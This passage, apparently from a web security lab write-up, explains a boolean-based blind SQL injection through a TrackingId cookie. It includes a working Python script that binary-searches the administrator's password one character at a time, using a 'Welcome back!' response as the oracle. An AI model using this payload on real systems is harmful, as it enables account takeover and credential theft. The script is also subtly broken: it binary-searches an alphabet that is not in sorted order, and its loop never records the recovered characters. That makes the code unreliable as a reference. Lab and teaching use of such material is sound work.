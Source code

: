 >This query asks: "Is the character at position X greater than 'm'?" <br/>If true, we search in the upper half of the alphabet<br/>If false, we search in the lower half

We can extend this reasonment to all characters: we perform a binary search for each character of the password, in other words we try log(|alphabet|) comparisons for each character of the password.
The overall complexity is $O(N\log{}M)$ with the exact complexity being, under the same assumptions above, $$30*log(62) \approx 180$$ requests in the worst-case scenario.

```python
import requests
import string
import urllib.parse

url = "insert here the link to the lab generated for your session"
original_cookie = "your cookies go here"

alphabet = string.ascii_letters

def isHigher(char: str, passwordIndex: int) -> bool:
    payload = f"' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'administrator'), {passwordIndex}, 1) > '{char}"
    cookies = {"TrackingId": original_cookie + payload}
    response = requests.get(url, cookies=cookies)
    return "Welcome back!" in response.text

def isEqual(char: str, passwordIndex: int) -> bool:
    payload = f"' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'administrator'), {passwordIndex}, 1) = '{char}"
    cookies = {"TrackingId": original_cookie + payload}
    response = requests.get(url, cookies=cookies)
    return "Welcome back!" in response.text

# We use the char '\x00' to say that we got a miss
# the equivalent of -1 in the initial examples
def binSearch(start: int, end: int, passwordIndex: int):
    if start == end:
        if isEqual(alphabet[start], passwordIndex):
            return alphabet[start]
        else:
            return '\x00'

    mid = start + (end - start) // 2

    if isEqual(alphabet[mid], passwordIndex):
        return alphabet[mid]

    if isHigher(alphabet[mid], passwordIndex):
        return binSearch(mid + 1, end, passwordIndex)

    return binSearch(start, mid, passwordIndex)


result = ""
ch = ""
for i in range(1, 30):
    alphabet = string.ascii_letters # [a-zA-Z]
    ch = binSearch(0, len(alphabet) - 1, i)
    if(ch == '\x00'):
        alphabet = string.digits    # [0-9]
        ch = binSearch(0, len(alphabet) - 1, i)

    # add to generalize the algorithm to cover ASCII punctuation
    #if(ch == '\x00'):
    #    alphabet = string.punctuation  
    #    ch = binSearch(0, len(alphabet) - 1, i)
```